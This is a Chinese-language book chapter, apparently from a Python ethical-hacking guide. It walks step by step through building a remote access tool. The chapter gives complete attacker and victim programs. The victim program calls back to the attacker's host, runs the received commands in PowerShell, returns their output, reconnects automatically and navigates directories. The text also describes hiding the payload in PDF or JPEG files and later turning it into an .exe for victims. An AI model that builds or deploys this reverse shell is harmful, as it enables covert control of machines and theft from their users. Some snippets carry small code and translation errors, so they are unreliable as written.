


# 第六章: 恶意软件开发

在前几章中，我们学习了如何收集与用户相关的信息，以及这些信息如何被用来攻击受害者。在本章中，我们将进入一个新的维度，开发**远程访问工具**（**RAT**）。RAT 允许渗透测试人员远程访问受害者的计算机，并广泛应用于网络安全领域。互联网上有许多更先进的 RAT 程序。然而，本章的目标是帮助你构建自己的 RAT，这将使你能够获得更高级的控制。

本章我们将涵盖以下主题：

+   RAT 简介

+   Python 中的套接字编程

+   创建恶意软件

+   在受害者机器上远程执行命令

# 了解 RAT（远程访问工具）

RAT 在网络安全中被广泛使用，市面上有许多流行的 RAT 工具。一些黑客甚至提供定制的、难以检测的 RAT 工具，用于获取受害者计算机的访问权限。在最简单的形式中，RAT 是一种程序，它与另一台计算机建立网络连接并执行某个操作。RAT 可以是合法软件，例如常见的商业软件 TeamViewer，IT 专业人员常用它来远程诊断计算机并检测问题。然而，这些程序也可以被黑客用来控制受害者的机器，因此你在使用这些程序时要非常小心。

在最简单的形式中，RAT 是一对程序。一种程序在受害者的机器上运行，而另一种程序在攻击者的机器上运行。这些程序有两种主要配置，取决于谁发起通信。它们定义如下：

+   一种由攻击者发起连接的程序，称为**正向连接**

+   使受害者的机器与黑客的机器建立连接的程序，称为**反向连接**

接下来我们将详细讨论这些内容。

## 正向 Shell

在现代计算机系统中，正向连接几乎是不可能的，因为大多数个人电脑的安全配置不允许远程设备发起连接，除非防火墙中有特定规则。默认情况下，所有的入站连接都被防火墙阻止。只有在受害者的机器上存在可以被黑客利用的开放端口时，这些连接才有可能。然而，你会发现，在大多数典型的场景中，情况并非如此。

## 反向 Shell

反向 shell 采用相反的方法。攻击者不会主动发起连接到受害者，而是通过在受害者的机器上植入恶意软件/**有效载荷**（在受害者机器上执行的代码）。通过这种方式，不是外部连接，而是由受害者发起的内部连接，这使得**入侵检测系统**（**IDS**）如防火墙和杀毒程序更难检测系统上的恶意活动。此类攻击的部署方式是，攻击者将一个包含恶意软件的文件发送给受害者，该文件嵌入在 PDF 或 JPEG 文件中。例如，受害者看到的会像是一个普通文件，但当受害者点击该文件并打开时，后台会执行一个脚本，从而发起连接回攻击者。一旦与攻击者的连接建立，攻击者就可以轻松地控制受害者的机器，并在受害者的机器上远程执行命令。现在我们已经了解了正向 shell 和反向 shell，接下来我们来讨论 Python 中的套接字。

# Python 中的套接字编程

在学习恶意软件开发之前，我们必须先学习 Python 中的网络编程以及如何创建网络应用程序。学习网络编程的第一步是了解我们所称的 *套接字*。套接字为创建基于网络的应用程序提供了一个基本的机制，而我们的恶意软件本质上将是一个网络应用程序。让我们首先从理解套接字开始。

## 套接字

在我们进入套接字编程之前，让我们先了解什么是网络套接字，以及它如何用于开发基于网络的应用程序。正如我们在前面的章节中学到的，网络协议栈的最上层是应用层。这些是用户在日常生活中与之交互的应用程序。现在，问题是，这些使用不同编程语言开发的应用程序如何在网络上进行通信呢？答案就在于套接字的使用。这里对套接字的定义是：[`docs.oracle.com/javase/tutorial/networking/sockets/definition.html`](https://docs.oracle.com/javase/tutorial/networking/sockets/definition.html)。

套接字是网络中两个程序之间双向通信链路的一个端点。套接字绑定到一个端口号，以便 TCP 层可以识别数据应该发送到哪个应用程序。

套接字通常用于客户端-服务器通信，其中一个节点是发起连接的客户端，而另一个节点是响应该连接的服务器。在连接的每一端，每个进程，例如网络启动程序或网络响应程序，都将使用一个套接字。套接字通常通过一个 IP 地址与一个端口号的组合来标识。在典型场景中，服务器通常会在某个端口上监听来自客户端的连接请求。一旦客户端请求到达，服务器就接受请求并与客户端建立套接字连接。

实现特定服务的服务器，如`HTTP`、`FTP`和`telnet`，会在常见的知名端口上监听，例如`80`、`21`和`23`。端口范围从`1`到`1024`被视为知名端口，不应在实现自己的程序时使用，因为它们已经被保留。在下一节中，我们将尝试理解 Python 中套接字的工作原理，并了解如何利用这一点来创建我们的恶意软件程序。

## 在 Python 中创建一个套接字

要在 Python 中创建一个套接字，我们可以利用`socket`库。这个库是 Python 标准包的一部分，所以我们无需安装任何东西。

只需输入以下代码即可导入此模块：

import socket

让我们看一下这个模块的**应用程序编程接口**（**API**）。API 是对代码库的软件接口，它让你以某种抽象层次访问代码的功能。

## socket.socket() API

要创建一个套接字对象，我们可以使用以下函数，称为`socket()`。让我们来看一下这个方法的参数。要查看在 VS Code 中函数可用的参数，你只需输入函数名，然后，利用 VS Code 的 Intelli Sense 技术（它可以帮助你写代码并提供建议），你就可以看到该函数所需的参数。要访问这个菜单，只需将光标放在函数名上，弹出的小窗口就会显示该方法所需的参数。如果你想查看该方法的详细实现，可以右键点击`socket`函数的名称，选择**转到定义**。这将打开一个文件，其中定义了这个方法。请小心不要在这里做任何更改。如果你没有使用 VS Code，你可以在这里阅读关于 Python socket 模块的文档：[`docs.python.org/3/library/socket.html`](https://docs.python.org/3/library/socket.html)。这个方法的实现大致如下：

图 6.1 – 套接字类构造函数

上面的截图显示了 socket 是一个类，它的构造函数需要 family、type 和 proto 参数。我们将在本章下一节开始构建程序时讨论这些参数。现在，你只需要理解调用这个 `socket` 类的构造函数会返回一个 socket 对象，可以用来与其他设备进行通信。

## socket.bind() API

一旦你创建了一个 socket 对象，要创建一个服务器，你需要将 socket 绑定到将用于通信的 IP 地址和端口。请注意，这个函数仅在创建**服务器**程序时使用。对于服务器，这些必须显式分配，因为服务器必须在指定的端口上监听传入的连接。而对于客户端，IP 和端口会自动分配，因此你不会使用此函数。

## socket.listen() API

`socket.listen()` 方法被服务器用于根据 `socket.bind()` 方法中配置的参数监听任何传入的连接。换句话说，它会等待任何连接尝试，指定的 IP 上指定的端口。此方法需要一个队列大小，表示在开始拒绝连接之前，允许在队列中保存的连接数。例如，`socket.listen(5)` 意味着它一次最多允许五个连接。

## socket.accept() API

如其名称所示，`socket.accept()` API 用于接受客户端发起的连接。这是一个**阻塞函数**调用，意味着程序执行将在此暂停，直到成功建立连接。一旦连接建立，程序执行将继续进行。

## socket.connect()

正如我们已经看到的，`socket.accept()` 会阻塞执行，直到客户端连接，接下来就出现了一个问题，客户端如何连接？这时`socket.connect()` 就发挥作用了。此方法用于发起与服务器的连接，如果服务器正在等待传入连接，通信将开始。当调用 `socket.connect()` 时，服务器中的 `socket.accept()` 会解除阻塞，程序的执行将继续进行。如果你现在感到困惑，不知道哪些函数在服务器中调用，哪些在客户端中调用，不用担心。当我们构建示例时，你将清楚理解这些内容。

## socket.send()

一旦服务器和客户端程序之间建立了连接，程序的最重要部分就开始了，那就是通过这些连接发送数据。这是大多数用户自定义逻辑所在的地方。`socket.send()` 方法用于通过网络发送字节。请注意，该函数的输入是字节，因此你想要通过此连接发送的任何数据都应该以字节的形式存在。用户有责任将适当的数据编码为字节，并在接收端进行解码。

## Socket.recv()

如其名称所示，这种方法用于在用户发送数据后接收字节。请注意，每次调用发送或接收方法时，都应妥善处理。例如，如果服务器正在发送数据，则客户端应准备好接收这些数据，反之亦然。该方法的输入是您希望一次接收的字节数。这是程序创建的缓冲区，用于暂时存储数据，一旦接收到一定数量的字节，就可以读取数据，缓冲区也准备好进行下一轮操作。

## socket.close()

一旦完成了您想要在程序中执行的所有操作，必须关闭套接字，以便该端口可以被其他程序使用。请注意，即使您没有正确关闭套接字，当程序退出或计算机重启后，操作系统也会在一段时间后释放它。然而，手动在程序中关闭这些套接字始终是个好主意。如果程序退出时套接字没有正确关闭，任何传入的请求可能会被阻塞，或者操作系统可能会拒绝让下一个程序使用该套接字，因为它可能认为该端口仍在使用中。

## 将它们组合起来

到目前为止，我们已经学习了套接字 API 的不同方法，但为了清楚理解每个函数如何以及在何处使用，我将在这里总结所有内容。我们将分别运行两个程序。一个将作为服务器监听传入的连接，另一个将作为客户端尝试建立连接。让我们看一下下面的图表，看看套接字 API 中各部分如何组合在一起：

图 6.2 – Python 中的客户端和服务器套接字使用

图中显示了两个并行运行的程序，即客户端和服务器。你可能会想，这个客户端和服务器如何与我们的黑客目的相关？实际上，我们将采用类似的方式来开发恶意软件。我们将编写两个程序。一个程序将在黑客的机器上运行，我们将其称为服务器/黑客程序，另一个程序将在客户端上运行；我们将其称为受害者程序。受害者程序将尝试与黑客程序建立连接。这样，由于连接是从受害者的机器发起的，防病毒软件或入侵检测系统（IDS）将不会阻止它。在本节中，我们了解了如何使用 Python 进行套接字编程。我们没有深入讲解如何创建这些程序。在下一节中，我们将利用这个套接字 API 来创建恶意软件中的受害者和黑客部分。

# 创建恶意软件

现在我们已经看到了恶意软件程序的大致框架，让我们开始编写我们的黑客和受害者程序。

## 黑客服务器

在这一部分，我们将编写黑客服务器的程序，它将持续监听来自受害者机器到黑客机器的传入连接。让我们去我们的 Kali 机器，创建一个名为`hacker server`的新项目。同时，像前几章一样创建一个新的虚拟环境。此部分我们不需要任何外部库，但使用虚拟环境来跟踪程序中的依赖总是一个好主意。还要创建一个名为`server.py`的新文件。

我们 Kali 机器的 IP 地址是`192.168.74.128`，而受害者的 Windows 机器的 IP 地址是`192.168.74.129`。接下来，我们需要选择监听的端口，用于接收传入的连接。你可以选择一个大于`1024`且小于`65355`的端口。然而，我们将使用端口号`8008`。这将是我们绑定服务器的端口，如果客户端想要连接到服务器，它需要使用这个端口。让我们导入 socket 模块并创建一个 socket 对象。看一下以下代码：

导入 socket

if __name__ == "__main__":

hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

在第一行，我们只是从 Python 标准库中导入了`socket`模块。接下来，我们正在创建一个 socket 对象。两个参数是`socket.AF_INET`和`socket.SOCK_STREAM`。让我们看看它们的含义。记得我们之前提到过 IPv4 和 IPv6 地址吗？这正是`socket.AF_INET`的含义。我们正在使用 IPv4，它由`socket.AF_INET`表示。如果你想使用 IPv6（虽然你可能不会），你可以选择`socket.AF_INET6`。接下来，我们需要定义想要使用的网络层协议。在这里，我们可以选择 TCP 或 UDP。在我们的示例中，我们想要使用可靠的连接，因此我们将选择 TCP。`socket.SOCK_STREAM`意味着我们正在创建一个 TCP socket。如果你想创建一个 UDP socket（不过，你可能大部分时间都不会这么做），你可以使用`socket.SOCK_DGRAM`。

接下来，我们将把这个服务器绑定到 Kali 的 IP 地址和端口`8008`：

IP = "192.168.74.128"

Port = 8008

socket_address = (IP, Port)

hacker_socket.bind(socket_address)

请注意，你需要以*元组*形式将 IP 地址和端口传递给`socket.bind()`方法。

接下来，我们需要使用以下命令来监听指定的 socket 上的传入连接：

hacker_socket.listen(5)

现在我们的程序配置几乎完成，可以开始监听传入的连接请求了：

hacker_socket.listen(5)

print("正在监听传入的连接请求")

hacker_socket, client_address = hacker_socket.accept()

程序的执行将在这里暂停。一旦客户端连接，方法将返回两个参数。第一个是`hacker_socket`，我们可以用它来发送和接收数据，第二个是受害者的地址。这将帮助程序知道哪个客户端已连接。

一旦连接被接受，我们就可以使用这个 socket 通过网络发送消息。正如之前所提到的，accept 函数是阻塞的，这意味着执行将在此暂停，直到有人连接。为了演示这一点，我们可以运行程序。你将看到以下输出：

图 6.3 – 等待传入连接

你将看到程序不会超过此步骤。你可以按 *Ctrl + C* 退出程序。现在，让我们尝试从 *黑客* 向受害者发送一条简单的消息。现在，我们将发送一个简单的字符串，但在后面的章节中，我们将发送更复杂的数据，例如文件：

message = "Message from hacker"

message_bytes = message.encode()

hacker_socket.send(message_byte)

print("Message sent from hacker")

`message.encode()` 方法将消息字符串转换为字节，因为 `socket.send()` 方法只接受字节。

最后，我们通过调用 `close()` 方法关闭此 socket。

黑客程序的完整代码如下所示：

import socket

if __name__ == "__main__":

hacker_socket = socket.socket(socket.AF_INET,     socket.SOCK_STREAM)

IP = "192.168.74.128"

Port = 8008

socket_address = (IP, Port)

hacker_socket.bind(socket_address)

hacker_socket.listen(5)

print("listening for incoming connection requests")

hacker_socket, client_address = hacker_socket.accept()

message = "Message from hacker"

message_bytes = message.encode()

hacker_socket.send(message_bytes)

print("Message sent")

hacker_socket.close()

我们的黑客程序现在完成了。接下来，我们将转到受害者程序，受害者程序将与黑客建立连接。

## 受害者客户端

转到 Windows 10 机器，并为受害者创建一个新项目。前几步将与黑客程序相似。请查看以下代码：

import socket

if __name__ == "__main__":

victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

hacker_IP = "192.168.74.128"

hacker_port = 8008

hacker_address = (hacker_IP, hacker_port)

由于我们要连接到黑客，我们需要提供黑客的 IP 地址和黑客监听的端口。

接下来，我们将为 `hacker_address` 创建一个元组。

下一步是使用受害者的 socket 与黑客 `connect()` 连接：

victim_socket.connect(hacker_address)

一旦调用此方法，如果服务器正在监听，我们将成功建立连接，否则我们将看到错误信息。如果现在运行程序，你会看到连接被拒绝的消息：

图 6.4 – 连接失败

这是因为，如果某个端口上没有服务器在监听，所有传入的流量默认会被阻塞。记得在我们的黑客程序中，我们正在发送一条消息吗？我们需要在这里处理这条消息，否则会遇到错误。我们可以使用 `recv` 方法接收消息：

data = victim_socket.recv(1024)

`1024`是套接字一次可以读取的字节数。来自黑客的数据如果超过这个数量，会被截断。我们可以使用循环来接收更多数据。现在，这个数值已经足够。

最后，由于我们以字节形式接收数据，我们需要将其解码为字符串，以便打印出来，并在程序中稍后使用（如果需要的话）：

print(data.decode())

victim_socket.close()

我们可以使用`close()`方法关闭套接字。完整的程序如下：

import socket

if __name__ == "__main__":

victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

hacker_IP = "192.168.74.128"

hacker_port = 8008

hacker_address = (hacker_IP, hacker_port)

victim_socket.connect(hacker_address)

data = victim_socket.recv(1024)

print(data.decode())

victim_socket.close()

现在我们的黑客和受害者程序在最简单的形式下已经完成。黑客程序正在监听传入的连接，而受害者程序尝试与黑客程序连接。一旦连接建立，黑客就会向受害者发送消息。受害者接收到消息后会将其打印出来。然后，双方关闭各自的连接。到目前为止，我们所学的是通用的套接字编程。一旦我们理解了如何在网络中的两个设备之间建立连接，我们就可以将这些程序应用到创建恶意程序上，允许黑客在受害者的计算机上执行恶意活动。

让我们将所有内容结合起来。首先，运行黑客程序，然后运行受害者程序。这一次，连接将被正确建立，在黑客的机器上，你将看到以下输出：

图 6.5 – 黑客程序

类似地，受害者将接收到消息并在屏幕上显示：

图 6.6 – 受害者接收到的消息

我们已经完成了拼图的一部分，即从受害者机器到黑客机器建立了一个成功的连接，并接收到了一个由黑客发送的小消息。这看起来可能不是什么大任务，但它是一个非常强大的工具。利用这个，你基本上可以从黑客那里接收命令。设计受害者程序执行这些命令并将结果发送回黑客。在下一节中，我们将学习如何从黑客机器向受害者机器发送命令，并将结果发送回黑客。

# 在受害者机器上远程执行命令

我们已经在*第三章*中看到过，*侦察与信息收集*（在*创建 Python 脚本*部分），如何使用 Python 在计算机上运行命令。我们将在此基础上构建一个恶意软件，它将接收命令并在受害者机器上执行。我们之前的程序只向受害者发送一条消息然后退出。这一次，我们将修改程序，让它做更多的事情。

在 Kali 机器上打开一个新项目，以便在受害者机器上执行命令并创建一个新文件。我们从建立连接开始：

import socket

if __name__ == "__main__":

hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

IP = "192.168.74.128"

Port = 8008

socket_address = (IP, Port)

hacker_socket.bind(socket_address)

hacker_socket.listen(5)

print("监听传入的连接请求")

hacker_socket, client_address = hacker_socket.accept()

下一步是获取用户输入的命令，我们将在受害者机器上执行此命令。一旦输入被获取，我们必须将其转换为字节并通过连接发送到受害者程序：

command = input("请输入命令 ")

hacker_socket.send(command.encode())

一旦命令发送出去，受害者端程序会负责执行它并返回结果。在黑客程序中，我们只是接收受害者返回的结果并将其打印出来：

command_result = hacker_socket.recv(1048)

print(command_result.decode())

接下来，我们将把它放入一个循环中，并添加退出条件：

while True:

command = input("请输入命令 ")

hacker_socket.send(command.encode())

if command == "stop":

break

command_result = hacker_socket.recv(1048)

print(command_result.decode())

`if` 语句确保我们能够在需要时安全地退出这个循环，从而避免陷入死循环。此外，为了确保在执行过程中遇到任何错误时能够正确关闭套接字，我们会添加一个`try-catch`块进行异常处理。执行命令的完整黑客程序如下所示：

import socket

if __name__ == "__main__":

hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

IP = "192.168.74.128"

Port = 8008

socket_address = (IP, Port)

hacker_socket.bind(socket_address)

hacker_socket.listen(5)

print("监听传入的连接请求")

hacker_socket, client_address = hacker_socket.accept()

print("与 ", client_address, " 建立连接")

try:

while True:

command = input("请输入命令 ")

hacker_socket.send(command.encode())

if command == "stop":

break

command_result = hacker_socket.recv(1048)

print(command_result.decode())

except Exception:

print("发生异常")

hacker_socket.close()

在受害者端，我们将接收到黑客发送的命令，使用`subprocess`模块执行命令，最后将结果发送回黑客。这部分将在 Windows 10 机器上进行编码。让我们在 Windows 机器上创建一个新项目，并尝试按照相同的步骤与黑客程序建立连接：

import socket

if __name__ == "__main__":

victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

hacker_IP = "192.168.74.128"

hacker_port = 8008

hacker_address = (hacker_IP, hacker_port)

victim_socket.connect(hacker_address)

正如我们在黑客程序中看到的，我们有一个`while`循环来持续发送命令，下面我们也会采用类似的方法：

data = victim_socket.recv(1024)

hacker_command = data.decode()

我们将添加一个类似的退出条件，就像我们在黑客程序中做的那样：

if hacker_command == "stop":

break

接下来，我们在受害者计算机上运行命令，并以字符串格式获取结果，如下所示：

output = subprocess.run(["powershell.exe", hacker_command], shell=True, capture_output=True)

`powershell.exe` 确保我们在 Windows 中使用 PowerShell 运行命令。`capture_output=True` 确保我们将结果接收在`output`变量中。

接下来，我们需要检查错误。如果命令执行期间发生错误，我们需要妥善处理，以免程序崩溃，否则我们会将结果发送回给黑客：

if output.stderr.decode("utf-8") == "":

command_result = output.stdout

else:

command_result = output.stderr

第一个条件检查是否在命令执行过程中没有错误，如果没有错误，我们将`command_result`变量设置为命令的输出，否则将`command_result`设置为错误。请注意，默认情况下这是以字节形式呈现的，因此我们不需要对其进行编码就能通过网络发送：

victim_socket.send(command_result)

最后，我们需要将所有命令执行代码放在`try-catch`块中，以处理任何异常并确保正确关闭套接字。完整的程序可以在这里找到：[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py)。

让我们尝试在受害者机器上运行一些命令，并获取结果。首先，启动黑客程序，然后运行受害者程序。在黑客程序中输入命令，并查看其中包含的结果：

图 6.7 – 黑客在受害者机器上执行命令

在这里，你可以看到黑客向受害者发送了`ipconfig`命令。受害者程序读取命令，执行命令并将结果返回给黑客。程序中有一些小问题，我们现在来讨论。首先，受害者程序只会尝试与黑客连接一次，如果黑客没有在监听，程序就会抛出错误并退出。这样并不理想，因为我们希望随时能够与受害者建立连接。为了解决这个问题，我们将`connect()`方法放入循环中，这样它就可以不断尝试与黑客建立连接，当黑客在线时，连接会立即建立。请看一下受害者程序的代码：[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py)。

现在让我们来看一下这个程序中的更改。首先，有一个外部的`while`循环。这个循环的目的是不断尝试与黑客建立连接，如果发生错误，它会等待 5 秒钟，然后尝试重新连接。一旦连接建立，在循环内部，还有另一个循环，确保黑客能够向受害者发送多个命令。这个`while`循环可以通过黑客使用`stop`命令来退出。最后，如果你想关闭程序，程序会捕获键盘中断异常。按*Ctrl + C*即可退出程序。这样，这个程序就不会无限运行了。

现在我们已经解决了第一个问题。接下来，我们只需要运行一次受害者程序，它就会不断尝试与黑客建立连接，当黑客变得可用时，它就会连接上。我们的程序还有一个小问题。当黑客程序要求输入命令时，如果我们直接按*Enter*，就会出现问题，因为`Enter`并不是一个有效的命令。我们还需要处理这个问题。为了处理这个问题，我们可以简单地添加一个检查，确保黑客不会输入空命令。为此，输入以下命令：

if command == "":

continue

我们将在黑客程序和受害者程序中都加入这个检查。

最后，如果你仔细观察，会发现我们只能发送和接收小于 1,024 字节的数据，因为我们在接收函数中定义了这个限制。任何超过这个大小的数据都会被截断。为了更详细地查看，去 Windows 机器上运行任何输出超过 1,024 字节的命令。例如，让我们来看一下`systeminfo`命令。这个命令输出系统信息，结果相对较大：

图 6.8 – systeminfo 结果

现在，使用你的黑客程序运行相同的命令。你的输出将类似于下面的内容：

图 6.9 – 截断的命令结果

正如你所看到的，我们只能接收 1,024 字节。这不是我们想要的。为了获得完整的结果，我们需要进行一些修改。在受害者程序中，我们将在`command_result`的末尾附加一个特殊的**标识符**。使用这个标识符，我们将在黑客程序中持续读取数据，直到达到标识符。这将作为黑客程序的标记，以便知道我们已经完成接收所有数据并可以停止了。

标识符字符串将如下所示：

标识符 = "<END_OF_COMMAND_RESULT>"

要将这个标识符添加到`command_result`中，我们首先将结果从字节解码为字符串，然后在末尾附加标识符，最后再将字符串转换为字节，如下所示：

command_result = output.stdout

command_result = command_result.decode("utf-8") + IDENTIFIER

command_result = command_result.encode("utf-8")

这一次，我们将使用`sendall()`方法，而不是`send()`方法。

在黑客端，我们将定义完全相同的标识符，以便进行匹配。现在，我们不再只接收 1,024 字节，而是添加一个`while`循环，持续接收数据并将其存储在数组中，直到找到标识符，然后我们将移除标识符并存储剩余的结果。

看一下以下接收代码：

full_command_result = b"

while True:

chunk = hacker_socket.recv(1048)

if chunk.endswith(IDENTIFIER.encode()):

chunk = chunk[:-len(IDENTIFIER)]

full_command_result += chunk

break

full_command_result +=chunk

print(full_command_result.decode())

我们定义一个`full_command_result`变量，用于保存完整的结果。然后我们编写一个循环，持续读取缓冲区，直到达到标识符。一旦达到标识符，我们将从结果中移除标识符，将剩余的字节添加到`full_command_result`，跳出循环，最后解码并打印出来。黑客的完整程序如下所示：[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example08-hacker-malware/hacker.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example08-hacker-malware/hacker.py)。

同样，受害者的完整程序如下所示：[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py)。

现在，我们已经开发了一个黑客程序，它将在 Windows 受害者机器上执行命令并将完整的结果返回给黑客。这个程序将完美运行。然而，由于我们只处理命令结果的输入和输出，切换目录的命令将无法正确运行。接下来，我们将专注于开发一个程序，以便我们可以在受害者的机器上进行目录导航。如果你去你的 Windows 机器并打开命令提示符，你可以使用`cd`命令来导航目录，我们也将在这里使用类似的方法。因此，当用户输入切换目录的命令时，我们将根据给定的命令，在受害者机器上切换到一个不同的目录。在本节中，我们学习了如何从黑客程序运行命令并将结果返回给黑客。在下一节中，我们将学习如何通过黑客程序发送命令来在受害者计算机上进行目录导航。

# 导航目录

我们将使用一个新的模块来更改目录，叫做`os`模块。这个模块包含在 Python 的标准库中，因此你无需安装它。只需通过写入以下命令导入该模块到你的程序中：

import os

我们首先需要做的是检测用户何时在黑客程序中输入`cd`命令。这可以通过对字符串命令调用`startswith()`方法来完成。我们将检测该命令，将命令发送到受害者程序，然后跳过循环中的其余部分，如下所示：

if command.startswith("cd"):

hacker_socket.send(command.encode())

continue

我们的程序第一部分现在已经完成。接下来，我们需要在受害者程序上接收这个命令，解码它，检查命令的类型，比如是否是要切换目录，然后找到我们想要移动到的路径。假设如果我们想在目录中返回上一级（向上一级目录移动），我们输入以下命令：

cd ..

`cd` 是命令的名称，`..` 是我们想要移动到的路径。因此，在受害者程序中，我们首先会使用相同的检查条件来判断`hacker_command`是否以`cd`开头。如果是，我们将去掉命令中的`cd`部分，提取出我们要移动到的路径。最后，如果路径存在，我们将使用`os.chdir()`方法切换到输入的目录：

if hacker_command.startswith("cd"):

path2move = hacker_command.strip("cd ")

if os.path.exists(path2move):

os.chdir(path2move)

else:

print("无法切换到目录 ", path2move)

continue

在 Windows 中，你可以通过在命令行中输入`pwd`（当前工作目录）命令来查看当前目录。现在，让我们运行黑客和受害者程序，看看我们如何导航目录：

图 6.10 – 更改目录

正如您在上面的截图中所看到的，我们首先通过使用`cd ..`命令在文件夹中向上导航，然后移动到`user`文件夹。然后，我们通过`cd Desktop`命令导航到桌面文件夹。通过这种方式，我们可以在文件系统中上下移动。黑客程序的完整代码在这里：[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example08-hacker-malware/hacker.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example08-hacker-malware/hacker.py)。

同样，受害者程序的完整代码在这里显示：[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py)。

这个程序将允许黑客执行命令并基本控制受害者的计算机。黑客可以将其用作模板，将更高级的功能集成到程序中。您可能会认为我们迄今为止编写的所有代码都是以 Python 脚本的形式存在的，为了部署它并进行成功的黑客攻击，受害者的计算机必须安装 Python，并且必须手动运行脚本，这似乎不是一个很好的主意。不用担心。在*第八章*，*后渗透*中，我们将看看如何将我们的 Python 代码打包成一个包含所有依赖项的单个可执行文件。这样，我们就不必担心受害者是否安装了 Python。我们将从我们的脚本创建一个`.exe`文件，并将其部署到受害者那里。更多内容请参见下一章。

# 总结

在本章中，我们首先学习了套接字编程，然后学习了如何使用套接字创建网络应用程序。我们的网络应用程序包括一个黑客程序和一个受害者程序，这帮助我们从基于 Linux 的黑客程序向 Windows 系统发送命令，执行这些命令，并将结果返回给黑客。我们还学习了如何操作文件流。我们的基本远控程序已经完成。尽管功能有限，但它为我们提供了创建更高级恶意软件程序的基础理解。在下一章中，我们将为我们的远控程序添加一些更多功能，比如文件传输。下一章见！
